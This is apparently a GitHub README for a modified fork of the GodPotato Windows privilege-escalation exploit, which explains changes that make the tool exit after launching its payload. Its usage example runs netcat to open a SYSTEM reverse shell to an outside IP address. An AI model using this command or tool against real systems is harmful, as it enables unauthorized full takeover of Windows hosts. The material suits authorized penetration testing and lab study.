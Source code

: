 # GodPotato (Improved Fork)

This is a modified fork of [BeichenDream's GodPotato](https://github.com/BeichenDream/GodPotato), an exploit that leverages COM and DCOM marshaling behavior to escalate privileges from `NETWORK SERVICE` or `LOCAL SERVICE` to `NT AUTHORITY\SYSTEM`.

## 🛠️ What Was Improved

The original version of `GodPotato` successfully impersonates SYSTEM and executes a command using the obtained token. However, the exploit process (`GodPotato.exe`) remains running if the executed command (e.g., a reverse shell) does not produce output or terminate. This can lead to:

- High CPU usage
- Increased memory consumption
- Resource exhaustion in low-spec environments (e.g., 1 GB RAM VMs)
- Processes that remain indefinitely ("zombie" behavior)

### ✅ This fork addresses that by:

- **Modifying `SharpToken.cs`** to remove stdout pipe handling.
- **Launching the payload process using `CreateProcessAsUser` without stdout redirection**.
- **Terminating `GodPotato.exe` immediately after executing the command**, regardless of payload output.

---

## 🔐 Requirements

This exploit works only from service accounts that:

- Belong to `NETWORK SERVICE` or `LOCAL SERVICE`, and
- **Have the `SeImpersonatePrivilege` enabled** (enabled by default for many services).

---

## 🚀 Example Usage

```powershell
.\GodPotato.exe -cmd "cmd /c C:\inetpub\wwwroot\uploads\nc64.exe -e cmd 172.16.1.100 4000"
```

This command spawns a reverse shell as SYSTEM and terminates `GodPotato.exe` right after launching the payload, without keeping the process alive unnecessarily.

---

### 🖼️ Screenshot

![GodPotato Execution](./images/example.png)

---

## 📌 Why This Matters

This behavior is critical in penetration testing labs and CTF scenarios where:

- The target machine has limited CPU/RAM.
- Persistence of the exploit process creates performance issues.
- Automation or rapid chaining of exploits is needed.

---

## 💡 Notes

- The impersonation and privilege escalation logic remains unchanged.
- Only the **execution and post-launch behavior** were optimized.
- Compatible with .NET Framework 4.x.

---

## 🔒 Original Credits

All credit for the exploit concept and base code goes to [BeichenDream](https://github.com/BeichenDream).

This fork simply enhances execution flow for better usability in modern red team environments and lab setups.

---

## ⚠️ Disclaimer

This project is intended for **educational and authorized testing purposes only**.  
Any misuse of this code is **strictly prohibited**. The author does **not accept responsibility** for any damage caused by improper use.  
Always obtain **proper authorization** before performing any security testing.

---
```

